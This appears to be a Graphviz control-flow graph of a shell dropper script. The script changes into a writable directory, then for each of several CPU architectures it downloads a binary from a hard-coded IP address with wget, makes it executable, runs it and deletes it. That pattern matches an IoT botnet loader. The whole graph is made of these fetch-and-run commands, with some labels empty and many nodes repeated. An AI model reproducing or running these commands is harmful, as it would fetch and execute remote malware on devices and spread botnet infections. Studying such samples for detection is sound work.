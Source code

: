 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://217.12.221.140/xboxmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x xboxmips "];
12 -> 14 [label=";,"];
14 [label="./xboxmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf xboxmips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://217.12.221.140/xboxmipsel "];
28 -> 30 [label=";,"];
30 [label="chmod +x xboxmipsel "];
30 -> 32 [label=";,"];
32 [label="./xboxmipsel "];
32 -> 34 [label=";,"];
34 [label="rm -rf xboxmipsel "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://217.12.221.140/xboxsh4 "];
46 -> 48 [label=";,"];
48 [label="chmod +x xboxsh4 "];
48 -> 50 [label=";,"];
50 [label="./xboxsh4 "];
50 -> 52 [label=";,"];
52 [label="rm -rf xboxsh4 "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://217.12.221.140/xboxserver "];
64 -> 66 [label=";,"];
66 [label="chmod +x xboxserver "];
66 -> 68 [label=";,"];
68 [label="./xboxserver "];
68 -> 70 [label=";,"];
70 [label="rm -rf xboxserver "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://217.12.221.140/xboxtelnet "];
82 -> 84 [label=";,"];
84 [label="chmod +x xboxtelnet "];
84 -> 86 [label=";,"];
86 [label="./xboxtelnet "];
86 -> 88 [label=";,"];
88 [label="rm -rf xboxtelnet "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://217.12.221.140/xboxshitserver "];
100 -> 102 [label=";,"];
102 [label="chmod +x xboxshitserver "];
102 -> 104 [label=";,"];
104 [label="./xboxshitserver "];
104 -> 106 [label=";,"];
106 [label="rm -rf xboxshitserver "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://217.12.221.140/xboxpoeerpc "];
118 -> 120 [label=";,"];
120 [label="chmod +x xboxpoeerpc "];
120 -> 122 [label=";,"];
122 [label="./xboxpoeerpc "];
122 -> 124 [label=";,"];
124 [label="rm -rf xboxpoeerpc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://217.12.221.140/xboxi586 "];
136 -> 138 [label=";,"];
138 [label="chmod +x xboxi586 "];
138 -> 140 [label=";,"];
140 [label="./xboxi586 "];
140 -> 142 [label=";,"];
142 [label="rm -rf xboxi586 "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://217.12.221.140/d "];
154 -> 156 [label=";,"];
156 [label="chmod +x d "];
156 -> 158 [label=";,"];
158 [label="./d "];
158 -> 160 [label=";,"];
160 [label="rm -rf d "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://217.12.221.140/h "];
172 -> 174 [label=";,"];
174 [label="chmod +x h "];
174 -> 176 [label=";,"];
176 [label="./h "];
176 -> 178 [label=";,"];
178 [label="rm -rf h "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://217.12.221.140/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://217.12.221.140/v "];
208 -> 210 [label=";,"];
210 [label="chmod +x v "];
210 -> 212 [label=";,"];
212 [label="./v "];
212 -> 214 [label=";,"];
214 [label="rm -rf v "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://217.12.221.140/j "];
226 -> 228 [label=";,"];
228 [label="chmod +x j "];
228 -> 230 [label=";,"];
230 [label="./j "];
230 -> 231 [label=";,"];
}
